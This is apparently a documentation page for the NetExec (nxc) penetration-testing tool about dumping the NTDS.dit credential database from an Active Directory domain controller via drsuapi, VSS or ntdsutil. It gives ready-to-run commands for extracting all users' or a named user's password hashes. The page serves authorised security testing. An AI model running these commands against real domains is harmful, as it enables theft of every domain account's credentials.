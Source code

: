 # Dump NTDS.dit

### Dump the NTDS.dit from target DC using methods from secretsdump.py

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```bash
2 methods are available:   
(default) 	drsuapi -  Uses drsuapi RPC interface create a handle, trigger replication, and combined with   
						additional drsuapi calls to convert the resultant linked-lists into readable format  
			vss - Uses the Volume Shadow copy Service  
```

### Dump all users from the NTDS.dit

```bash
nxc smb $TARGET -u $USER -p $PASSWORD --ntds
nxc smb $TARGET -u $USER -p $PASSWORD --ntds --enabled
nxc smb $TARGET -u $USER -p $PASSWORD --ntds vss
```

{% hint style="info" %}
You can also DCSYNC with the computer account of the DC
{% endhint %}

### Dump a specific user only

```bash
nxc smb $TARGET -u $USER -p $PASSWORD --ntds --user Administrator
```

{% hint style="warning" %}
In environments with multiple domains (e.g., parent/child), make sure to specify the full NetBIOS format when using --user, such as: **--user NETBIOS/Administrator**. This avoids ambiguity when the same username exists in different domains.
{% endhint %}

There is also the ntdsutil module that will use ntdsutil to dump NTDS.dit and SYSTEM hive and parse them locally with secretsdump.py&#x20;

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M ntdsutil
```

